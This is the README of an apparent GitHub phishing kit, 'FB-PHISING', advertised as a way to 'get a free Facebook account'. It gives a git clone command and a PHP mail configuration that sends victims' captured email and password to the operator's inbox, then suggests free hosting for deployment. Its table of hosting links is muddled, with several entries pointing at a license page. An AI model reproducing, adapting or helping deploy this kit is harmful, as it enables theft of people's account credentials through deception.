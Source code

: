 # FB-PHISING

Do you want to get a free Facebook account? FB-PHISING is the solution

## Installation

You can install with git bash or directly from github

```bash
git clone https://github.com/SbgSchool/FB-PHISING.git
```

## Usage

Change the configuration belows

```php
$mail->Username = "your@email.com"; //email server
$mail->Password = "your_password"; //password email server
$mail->SetFrom("Your Email", "Name"); //set sender email
$mail->Subject = "subject"; //subject email
$mail->AddAddress("Your@email2.com");  // Email to get results
$mail->MsgHTML("Email : ".$email."\nPass : ".$pass."");
```

After changing the configuration ... you can immediately try it with a web server or web hosting

| Webserver | Webhosting | 
| ----------- | :---------: |
| [Infinity Free](infinityfree.net)| [Xampp](https://choosealicense.com/licenses/mit/) | 
| [000webhost](https://choosealicense.com/licenses/mit/) | [Wampp](https://choosealicense.com/licenses/mit/) | 
| and Others | Isi 2 - 3 | 

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)